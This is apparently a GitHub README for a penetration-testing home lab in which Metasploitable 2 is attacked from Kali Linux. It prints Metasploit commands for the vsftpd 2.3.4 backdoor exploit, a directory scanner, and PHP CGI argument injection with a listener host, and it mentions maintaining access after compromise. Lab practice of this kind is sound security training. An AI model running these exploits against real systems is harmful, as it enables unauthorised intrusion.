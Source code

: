 <h1>Metasploit Cybersecurity Home Lab</h1>

<h2>Description</h2>
In this lab, I set up and configured Metasploit to exploit vulnerabilities in a virtual environment using VirtualBox and Kali Linux. This setup simulates various attack vectors and provides hands-on experience with penetration testing techniques.
<br />

<h2>Languages and Utilities Used</h2>

- <b>Powershell</b>
- <b>VirtualBox</b>
- <b>Kali Linux</b>
- <b>Metasploit Framework</b>

<h2>Environments Used</h2>

- <b>Host Operating System</b>: Windows 11
- <b>Virtual Machines</b>:
  - Metasploitable 2
  - Kali Linux

<h2>Lab Walk-through</h2>

<h3>Setting Up the Environment</h3>
<ol>
    <li><b>Downloading Metasploitable 2</b>: Obtain the Metasploitable 2 virtual machine.</li>
    <li><b>Setting Up Virtual Machines</b>: Import the Metasploitable 2 virtual machine into VirtualBox.</li>
</ol>

<h3>Configuring VirtualBox VM</h3>

<h3>Launching Metasploit on Kali Linux</h3>
<ol>
    <li><b>Starting Metasploit Console</b>:</li>
</ol>
bash
Copy code
msfconsole
<p align="center">
    <img src="./path_to_image/Screenshot 2024-06-24 185156.png" height="80%" width="80%" alt="Metasploit Console"/>
</p>
<h3>Exploiting Vulnerabilities</h3>
<ol>
    <li><b>Using vsftpd 2.3.4 Backdoor</b>:</li>
</ol>
bash
Copy code
use exploit/unix/ftp/vsftpd_234_backdoor
set RHOSTS 10.0.2.4
exploit
<p align="center">
    <img src="./path_to_image/Screenshot 2024-06-24 185530.png" height="80%" width="80%" alt="vsftpd Exploit"/>
</p>
<ol start="2">
    <li><b>Directory Scanning and PHP CGI Argument Injection</b>:</li>
</ol>
bash
Copy code
use auxiliary/scanner/http/dir_scanner
set RHOSTS 10.0.2.4
exploit
bash
Copy code
use exploit/multi/http/php_cgi_arg_injection
set RHOSTS 10.0.2.4
set LHOST 10.0.2.5
exploit
<p align="center">
    <img src="./path_to_image/Screenshot 2024-06-24 190945.png" height="80%" width="80%" alt="Directory Scanner and PHP CGI Injection"/>
</p>
<h2>Additional Steps</h2>
- <b>Enumerating Services and Vulnerabilities</b>: Using Metasploit's auxiliary modules to scan and identify services running on the target.
- <b>Post-exploitation</b>: Gathering information and maintaining access on the compromised system.
<!--
 ```diff
- text in red
+ text in green
! text in orange
# text in gray
@@ text in purple (and bold)@@
```
-->
